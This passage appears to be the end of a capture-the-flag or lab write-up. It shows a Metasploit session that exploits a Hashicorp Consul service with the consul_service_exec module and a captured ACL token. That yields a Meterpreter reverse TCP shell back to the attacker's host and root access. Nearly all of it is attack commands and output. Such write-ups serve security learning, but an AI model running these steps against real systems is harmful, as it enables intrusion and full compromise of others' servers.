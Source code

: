 Lastly, let's run metasploit

```shell
msfconsole -q
msf6 > grep consul search consul type:exploit
msf6 > grep consul search consul type:exploit
   3  exploit/multi/misc/consul_rexec_exec                     2018-08-11       excellent  Yes    Hashicorp Consul Remote Command Execution via Rexec
   4  exploit/multi/misc/consul_service_exec                   2018-08-11       excellent  Yes    Hashicorp Consul Remote Command Execution via Services API
msf6 > use 4
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/consul_service_exec) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/misc/consul_service_exec) > set LHOST 10.10.14.175
LHOST => 10.10.14.175
msf6 exploit(multi/misc/consul_service_exec) > set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
ACL_TOKEN => bb03b43b-1d81-d62b-24b5-39540ee469b5
msf6 exploit(multi/misc/consul_service_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.175:4444
[*] Creating service 'tJRjJQqb'
[*] Service 'tJRjJQqb' successfully created.
[*] Waiting for service 'tJRjJQqb' script to trigger
[*] Sending stage (1017704 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.175:4444 -> 10.10.11.183:60006) at 2023-01-18 20:44:35 +0100
[*] Removing service 'tJRjJQqb'
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > shell
Process 32677 created.
Channel 1 created.
whoami
root
```

And That is all. Thanks for reading!
